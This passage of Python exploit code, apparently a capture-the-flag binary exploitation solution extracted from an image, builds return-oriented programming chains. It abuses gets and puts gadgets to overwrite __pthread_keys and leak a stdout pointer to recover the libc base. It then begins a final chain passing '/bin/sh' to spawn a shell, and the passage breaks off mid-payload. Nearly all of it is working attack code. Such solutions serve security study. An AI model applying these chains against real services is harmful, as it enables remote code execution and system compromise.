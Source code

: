 ```python
    0, # fill the buffer
    0, 
    moved_stack, # rbp
    next(elf.gadget("ret")), # adjust stack
    gets_rbp_0x10
], map=p64)

sock.sendlineafter(b">", payload)

# 0x4010e9: add dil, dil ; loopne 0x00401155 ; nop ; ret ; (1 found)
change_rdi = 0x4010e9

payload = flat([
    0, # fill the buffer
    0,
    moved_stack, # rbp
    elf.plt(b'gets'), # gets@plt (No.1)
    change_rdi, # add dil, dil;
    change_rdi, # add dil, dil; # avoid lock
    # now, rdi == __pthread_keys(?)
    elf.plt(b'gets'), # gets@plt (No.2). write 0x16d6 to __pthread_keys
    change_rdi, # add dil, dil;
    change_rdi, # add dil, dil; # avoid lock
    elf.plt(b'puts'), # puts(__pthread_keys)
    # now, rax == 0x16d6
] + [
    0x401157, # add eax, 0x00002ECB ; add  [rbp-0x3D], ebx ; nop ; ret ;
] * 0x15e + [
    # now, rax == 0x401060(puts@plt)

    # 4010e7:       bf 10 40 40 00          mov    edi,0x404010
    # 4010ec:       ff e0                   jmp    rax
    # 4010ee:       66 90                   xchg   ax,ax
    # 4010f0:       c3                      ret

    0x4010e7, # puts(stdout)

    next(elf.gadget("pop rbp; ret")), # system needs more stack
    big_stack, # rbp

    gets_rbp_0x10 # go to next!
], map=p64)

assert is_gets_safe(payload)

sock.sendline(payload)

sock.sendline(b'') # No.1 (avoid writing to lock)

sock.sendline(b'P' * (0x16d6 - 1 - 5) + b'XXXXX') # No.2 ( -1 is newline, XXXXX is sentinel)
sock.recvuntil(b'XXXXX\n')

stdout = u64(sock.recv(6).ljust(8, b'\x00'))
libc_base = stdout - libc.symbols()[b'_IO_2_1_stdout_']

libc.base = libc_base

payload = flat([
    0, # fill the buffer
    0,
    0, # rbp
    next(libc.gadget(b"pop rdi; ret")),
    next(libc.search(b"/bin/sh\x00")),
```